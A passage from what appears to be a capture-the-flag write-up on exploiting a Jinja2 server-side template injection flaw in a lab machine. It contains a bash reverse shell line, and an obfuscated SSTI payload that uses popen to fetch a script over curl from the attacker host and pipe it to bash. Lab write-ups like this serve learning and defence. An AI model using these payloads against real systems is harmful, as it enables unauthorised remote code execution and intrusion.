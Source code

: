 When we check on response for the payload `{{77*77}}`, we can see that the result `5929` is persent, meaning this is indeed vulnerable to SSTI:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-23.png)

### Reverse Shell

Abusing SSTI, let's spawn a reverse shell. 

**revshell** file that will contain the following line of code:

```bash
bash -i >& /dev/tcp/10.10.14.36/1337 0>&1
```

This file will be used to spawn a reverse shell later:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-27.png)

From [here](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/), we found a payload that could be used.

Let's use the following payload on qr_link parameter:

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.10.14.36:8000/revshell | bash")|attr("read")()}}
```

Payload above will download **revshell** file from our Python Web server and launch it, spawning reverse shell on our netcat litener.

Let's run the request through Burp Suite repeater:
